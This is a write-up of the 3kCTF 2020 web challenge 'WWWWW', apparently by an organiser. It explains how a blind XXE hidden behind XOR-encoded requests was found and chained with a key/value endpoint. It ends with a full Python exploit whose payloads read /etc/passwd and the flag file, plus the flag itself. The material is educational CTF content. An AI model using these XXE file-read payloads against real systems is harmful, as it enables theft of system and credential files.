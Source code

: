 ```yaml
---
layout: post
title: WWWWW
category: 3kCTF 2020
---
```


On July 24th we hosted the 3k international CTF, we tried to make it a good quality CTF as much as possible, we also tried not to make the challenge mostly guessable
, thats why as challenge includes a recon technique ( brute-forcing dirs/files) ,we added note that the task is kind of bounty challenge :)


To begin , the first steps were not that hard to find the vulnerability which was XXE but was a bit hard to exploit :) I will discuss this in my write up.


The usual steps when checking out a web challenge or even when trying to find bugs in a website that we have never used is to check all possible functions at least on the main domain.


At the first check, we get an idea of what the website is!

![index](https://user-images.githubusercontent.com/7364615/88489371-2fa9fb80-cf94-11ea-86d0-1386be5d49d9.png)

Checking out each function and using burp to log all possible queries during that time, we found an interesting request that was triggered.

![api](https://user-images.githubusercontent.com/7364615/88489526-03db4580-cf95-11ea-8325-40a547d825b9.png)

We tried to decode the base64 data that was sent by it was not only encoded thats why we got garbage data. we get back to the source code page to check where the `api.php` is used ,but we just found some obfuscated javascript code.

![js](https://user-images.githubusercontent.com/7364615/88489581-5288df80-cf95-11ea-889a-94734ed431b8.png)

We tried to deobfuscate it, but that was the worst option, it will take some time so the best solution will be to use `chrome devtools` and debug the code directly and check what is going on in our data!


Simply putting a breakpoint right after extracting the value of `email` line.

![bp](https://user-images.githubusercontent.com/7364615/88489835-38e89780-cf97-11ea-8c07-c688a7cd2867.png)

Continuing to track the functions called just before the final base64 data, we found that it was just xoring the email that was injected into a hardcoded XML document , where the key : `hSuuzuKdkvJeWgjW`

![xor](https://user-images.githubusercontent.com/7364615/88489906-e8be0500-cf97-11ea-9dbe-fc7d41de3910.png)

As we understand what the app was doing in the background, we can write simple code or just edit the XML each time using devtools.


First, to confirm that there is an XML external entity vulnerability, we can xor and encode our own payload directly without going through the javascript used on the application.


To confirm that we have XXE here, we just tried a simple payload, but as `api.php` just returns` {" result ":" ok "}` if the xml parse pass and` {"result": " error "}` if not.


and also after trying to include external url to verify pingback, we found that there was no request even a simple DNS request. So how can we confirm that we have XXE ?!


Easy, just use external url and local url to check (same as time based SQL injection :D)

![xxe](https://user-images.githubusercontent.com/7364615/88490135-a3023c00-cf99-11ea-822b-63be9052c210.png)

After encoding the url and sending these two payloads separately, we found that the payload that requests an external url takes a long time compared to the one that requests localhost which confirms that we have XXE in our case.


So as its bug bounty style based challenge, here we can ask our best friend `dirsearch` tool and he will tell us what to do :D

![dir](https://user-images.githubusercontent.com/7364615/88490248-8581a200-cf9a-11ea-8514-51519937ff70.png)

And yes :), we just got a cool output that includes results that we still haven't verified!


Digging a little deeper into the result, we found an endpoint that can be used to dump information about hotel and restaurant locations, but the most interesting part was this.

![file](https://user-images.githubusercontent.com/7364615/88490293-f628be80-cf9a-11ea-88a4-7d5e488e0ec7.png)

There was another file, visiting it it will come out

```
{"msg":"sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","read":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","write":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test"}
```


By checking and trying multiple attempts we confirm two results, we can either dump our config settings or change them as needed, but we should use our sid in each request which looks like a sessionid value


For example, to update current values, we can just request `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test` and then `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0` to confirm the update


Thinking about how to use this feature like a weapon, we can just make this endpoint which can be reached from localhost too as store file, so as we need in the normal exploit a External DTD but in this case there was no outgoing port open, using a php wrapper which should be supported in this case to return our DTD content as if it had been loaded from the outside. 

![sploit](https://user-images.githubusercontent.com/7364615/88490744-232aa080-cf9e-11ea-896c-0720b962fdee.png)

```
import requests
import base64
import json
from pwn import *

s = requests.Session()
key_xor = "hSuuzuKdkvJeWgjW"

def getsid():
    response = s.get('http://wwwweb.3k.ctf.to/define.php')
    return response.json()['msg'][4:]

def getdata(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid)
    return response.text

def testchange(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid+'&key=test&value=test')
    return response.text

def sendpayload(sid,payload):
  url = "http://wwwweb.3k.ctf.to/api.php"
  header = {"Content-type": "application/x-www-form-urlencoded", "Accept": "*/*", "Origin": "http://wwwweb.3k.ctf.to", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "dnt": "1", "Connection": "close"}
  response = requests.post(url, headers=header, data=payload)

def create_pay(key,dtd):
  return {"xml": b64e(xor("<!DOCTYPE r [\r\n  <!ELEMENT r ANY >\r\n  <!ENTITY % sp SYSTEM \"php://filter//resource=data://text/plain;base64,"+base64.b64encode(dtd)+"\"> %sp; %param1;\r\n]>\r\n<subscribe><email>&exfil;</email></subscribe>",key))}

sid = getsid()

print "[*] SID : "+sid
print "[*] Default value : "+ getdata(sid)
print "[*] Make small changes to test : "+ testchange(sid)
print "[*] New value : \n"+ getdata(sid)

external_dtd_1 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'
external_dtd_2 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///flag"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_1))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Send payload 2 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_2))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Reset value to prevent leak"
testchange(sid)
```

and the flag was : `3k{cL457rBpVxsJnRXNR9vW6uR4hbKszeFs}`


Thanks for reading, well done `RedRocket` and `WreckTheLine` who were the only two teams to solve the challenge during the CTF.


See you next time :)
